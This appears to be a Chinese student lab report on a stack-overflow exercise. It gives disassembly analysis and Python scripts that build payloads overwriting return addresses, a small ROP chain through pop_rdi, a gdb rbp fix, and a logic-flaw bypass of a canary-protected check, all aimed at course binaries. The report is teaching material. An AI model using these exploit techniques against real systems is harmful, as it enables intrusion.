




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
1. func1:
```
40121e: bf 04 20 40 00   mov   $0x402004,%edi; 这里的地址存放着 'Yes!I like ICS!'
```
因此，这个函数会输出题目要求的字符串并退出。正常流程下，没有任何地方调用了func1，所以我们的任务就是强制程序跳转到这里。

2. func:
本函数调用了strcpy，把输入的内容复制到地址为-0x8(%rbp)处。但strcpy不会检查长度，所以如果我们输入的字符串超过8字节，它就会覆盖rbp及其上方的返回地址。

3. 因此，根据汇编代码，buffer的起始位置是rbp-0x8，保存的旧rbp占用rbp到rbp+0x7的空间，返回地址则位于rbp+0x8。

4. 设计payload：前8字节应填充缓冲区本身，中间8字节应覆盖旧的rbp，最后8字节要覆盖返回地址，即func1的地址。

- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + func1_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload generated in ans1.txt")
```

- **结果**：


### Problem 2:
- **分析**：
1. func2:
```
401225: 81 7d fc f8 03 00 00  cmpl  $0x3f8,-0x4(%rbp); 检查参数是否等于 0x3f8
40122c: 74 1e                 je    40124c <func2+0x36>; 只有等于时才跳到正确输出
```
即要给func2传一个参数，使其edi寄存器中的参数等于0x3f8。

2. pop_rdi:
此函数可以从栈弹出数据到rdi，用来传参。

3. func:
调用函数memcpy。buffer的起始地址是rbp-0x8，到返回地址有16字节，即buffer的8字节和旧rbp的8字节。

4. 设计payload:
0-7字节，填充buffer；8-15字节，覆盖旧rbp；16-23字节，返回地址指向pop_rdi；24-31字节，填充0x3f8，满足将rdi中顺利pop出来的要求；32-39字节，使函数跳转到func2。

- **解决方案**：
```python
import struct
pop_rdi_ret = struct.pack("<Q", 0x4012c7)
arg1 = struct.pack("<Q", 0x3f8)
func2_addr = struct.pack("<Q", 0x401216)
padding = b"A" * 16 
payload = padding + pop_rdi_ret + arg1 + func2_addr
with open("ans2.txt", "wb") as f:
    f.write(payload)
print("ans2.txt generated. Total length:", len(payload))
```

- **结果**：


### Problem 3: 
- **分析**：
1. func:
func函数中memcpy(dest, src, 0x40)将64字节的数据拷贝到rbp-0x20开始的缓冲区。所以我们要绕过参数检查逻辑，强行触发func1输出包含幸运数字114的指定字符串。

2. 设计payload思路:
缓冲区空间有32字节，旧rbp有8字节，要覆盖的返回地址从第41字节开始。这个跳转被设置为跳转至0x40122b，此处开始将目标字符串以立即数形式压入栈中。

3. 使用gdb:
由于地址随机化的影响，在gdb中手动修正rbp寄存器，使其指向当前合法的栈区域。即先设置断点b *0x40122b，再运行run ans3.txt，执行set $rbp = $rsp + 0x40，最后继续执行continue。

- **解决方案**：
```python
import struct
padding = b"A" * 40
target = struct.pack("<Q", 0x40122b)
with open("ans3.txt", "wb") as f:
    f.write(padding + target)
```

- **结果**：


### Problem 4: 
- **分析**：
1. Canary保护机制:
首先植入Canary:
```
136c: 64 48 8b 04 25 28 00   mov   %fs:0x28,%rax  #读取随机值
1375: 48 89 45 f8            mov   %rax,-0x8(%rbp) #存放在栈上rbp-0x8位置。
```
最后要验证Canary:
```
140a: 48 8b 45 f8            mov   -0x8(%rbp),%rax #取出栈上的值
140e: 64 48 2b 04 25 28 00   sub   %fs:0x28,%rax   #与原值做减法（结果应为0）
1417: 74 05                  je    141e            #若相等则跳转至返回
1419: e8 b2 fc ff ff         call  10d0 <__stack_chk_fail@plt> #否则崩溃
```

2. 我们要在func中调用func1，这有两个条件：
第一，cmpl $0x1, -0x18(%rbp) 结果为相等，即变量值为1；第二，cmpl $0xffffffff, -0xc(%rbp) 结果为相等，即变量值为-1。
而13c0后的循环会执行0xfffffffe次，每次循环就会把-0x18(%rbp)减去1。经过计算，输入-1可满足此要求。

- **解决方案**：
不需要代码，只需要在运行problem4，提示输入时，输入-1，程序会经过循环计算，绕过逻辑检查，直接调用func1输出通关提示。

- **结果**：


## 思考与总结
Problem1和Problem2重点在于理解栈帧结构与返回地址偏移，通过控制跳转地址来达到目的。 Problem3要利用现有的代码片段绕过保护，做题过程中我在栈对齐和rbp修复的地方花了很长时间。Problem4则重点在破解Canary机制，利用逻辑漏洞与整数溢出达到输出的目的。

## 参考资料
《深入理解计算机系统》